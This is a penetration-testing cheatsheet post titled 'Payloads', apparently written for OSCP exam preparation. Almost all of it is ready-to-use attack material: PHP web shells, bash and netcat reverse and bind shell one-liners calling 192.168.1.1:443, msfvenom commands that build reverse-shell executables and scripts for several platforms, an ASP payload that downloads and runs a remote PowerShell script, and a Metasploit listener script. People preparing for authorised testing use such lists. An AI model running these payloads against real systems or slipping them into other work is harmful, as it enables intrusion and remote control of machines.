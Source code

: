 ```yaml
---
title: Payloads
author: linatl
category: "OSCP"
date: "2021-03-06 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Webshells
```
Kali ready-to-go webshells
/usr/share/webshells/
/usr/share/seclists/Web-Shells/

PHP code for a simple web shell:
<?=`$_GET[0]`?>
<?php echo shell_exec($_GET['cmd']); ?>
<?php $cmd=$_GET['cmd']; system($cmd);?>

PHP to immediately pop a shell (linux-only)
<?php $sock=fsockopen("192.168.1.1",443); exec("/bin/sh -i <&3 >&3 2>&3");?>
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.1/443 0>&1'");?>
```

###### Pop a shell from command line
```
Bash
$ bash -i >& /dev/tcp/192.168.1.1/443 0>&1

Netcat
$ nc -e /bin/bash 192.168.1.1 443
```

###### Ready-to-go reverse shell payloads
```
Nishang
https://github.com/samratashok/nishang

PayloadsAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings

Pentestmonkey Cheatsheet
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

Shell Spawning with NetSec
https://netsec.ws/?p=337
```

###### List msfvenom payload options
```
$ msfvenom -l payloads | grep php
$ msfvenom -l archs
$ msfvenom -l formats
```

###### Windows payloads for in a python script
```
Unstaged payload
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt

Staged payload
$ msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.1 LPORT=443 -b "\x00" -f python -v shellcode -a x86 --platform windows > payload.txt
```


###### .exe reverse shell
```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f exe > shell.exe
```

###### PHP reverse shell
```
$ msfvenom -p php/reverse_php LHOST=192.168.1.1 LPORT=443 -f raw > shell.php

Need to add the <?php at the first line of the file so that it will execute as a PHP webpage.
```

###### .elf reverse shell
```
x86
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
x64
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f elf > shell.elf
```

###### .sh reverse shell
```
$ msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.1 LPORT=443 -f raw > shell.sh
```

###### Some more reverse shells
```
.asp
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f asp > shell.asp
.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f raw > shell.jsp
.war
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f war > shell.war
```

###### Simple ASP(X?) payload without importing additional libraries
```
<%
Set s = CreateObject("WScript.Shell")
Set cmd = s.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.10.10:80/InvokePowerShellTcp.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
>
```

###### Netcat reverse shell
```
Set up a listener
$ nc -nvlp 443

Connect to the listener (Windows)
$ nc -nv 192.168.1.1 443 -e cmd.exe
Connect to the listener (Linux)
$ nc -nv 192.168.1.1 443 -e /bin/bash
```

###### Netcat bind shell
```
Set up a listener (bind shell) (Windows target)
 $ nc -nvlp 10.10.10.10 443 -e cmd.exe
Set up a listener (bind shell) (Linux target)
 $ nc -nvlp 10.10.10.10 443 -e /bin/bash

Connect to the listener
$ nc -nv 192.168.1.1 443
```

###### Metasploit Multi Handler (.rc script)
```
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LHOST 192.168.1.1
set LPORT 443
set ExitOnSession false
exploit -j -z
```
